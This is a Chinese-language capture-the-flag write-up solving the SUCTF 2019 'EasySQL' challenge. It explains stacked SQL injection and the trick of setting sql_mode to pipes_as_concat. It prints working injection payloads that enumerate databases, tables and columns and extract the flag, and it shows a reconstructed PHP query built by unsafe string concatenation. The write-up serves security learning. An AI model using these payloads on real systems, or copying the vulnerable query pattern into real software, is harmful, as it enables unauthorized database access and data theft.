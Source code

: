 # [SUCTF 2019]EasySQL

## 知识点

`堆叠注入`

`sql_mode管道符`

## 解题

`堆叠注入`试试

```mysql
1;show databases;-- -
1;show tables;-- -
1;show columns from `Flag`;-- - # 最后两个
1;desc Flag;-- -
```

### 原查询语句猜测

根据回显猜测代码里的SQL语句

回显用的是`var_dump`函数，当查询语句为纯数字的时候才回显。

数据库的特性，当`select`后面是数字的时候，即使查询的字段没有也不会报错，当查询的带有`英文字母`的时候，就会产生报错，所以初步判断查询的内容应该不是以往那种`SQL注入`的题目在`where后面`

而这里的就是在`select后面`的 ，试一下查询`1,2,3,4,5`

![](./img/4-9.png)

猜想正确，注意到原本查询唯独末尾的`5`变为了`1`，猜测是用到了`管道符`（`|` `||`之类的），导致`5`回显失败，这里先试试看查询

```
*,1
```

直接得到了`flag`，算是个非预期解

![](./img/5-2.png)

原`php`代码中的`SQL`语句应该是

```php
$sql = "select ".$_POST[query]."|| xxx from Flag" ;
```

### 预期解

这时候我们可以利用数据库的语句，更改`||`的意思，把它改为`连接符`，这样的话，不管输入啥都会查询到`flag`这个字段，构建`payload`

```sql
1;set sql_mode=pipes_as_concat;select 1
```

这样的话SQL语句就变成了

```sql
select 1;set sql_mode=pipes_as_concat;select 1 || flag from Flag
```


